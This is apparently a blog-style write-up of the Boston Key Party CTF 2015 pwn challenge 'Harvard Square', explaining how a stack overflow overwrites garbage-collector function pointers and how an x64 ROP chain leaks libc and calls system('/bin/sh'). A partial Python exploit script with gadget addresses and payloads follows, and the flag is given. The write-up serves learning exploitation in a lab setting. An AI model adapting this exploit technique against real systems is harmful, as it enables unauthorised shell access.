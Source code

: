 title: Boston Key Party CTF 2015 Pwn 275 Harvard Square 
date: 2015-03-02 1:50
category: pwn
tags: BKPCTF, bof
slug: bkpctf_pwn_275_harvard_square

This problem was worth 275 pts, but I thought it is easier than other red problems. XD  
We could reverse it happily beacuse the programe wasn't stipped.  
* * *

The problem is a game about transcation of 0days.  
We could enter the password and cheated the game, but it's useless. XD  
After executing the binary, the game printed the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!  

The program for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```

However, if understood the game rule, we could know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It couldn't overflow the return address, but we could use it to change function pointers. :D  

The programe use [simple-gc](https://github.com/dhamidi/simple-gc/).  
It will create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We could overwrite function ptr to `action_hiscore`, and we could overwrite the return address.  

We could write the exploit until now.  
Honestly, I am not familar with x64 architecture exploit.  
I wasted a lot of time to debug my code. :(  

By the way, args on x64 is in register.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
arg4 => r8
...
```

So we must find some gadget to control arguments at first.  
Then, we could use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I returned to `action_hiscore()` again because there is `fflush()` at the end of function.  

After leaked the address, we could calulate the address of `system()`.  
Next, We needed a string of "/bin/sh".  
Luckily, we could find it in libc, too. XD  
So we couldn execute `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

flag: `stay_in_school_and_dont_do_the_grugq`  
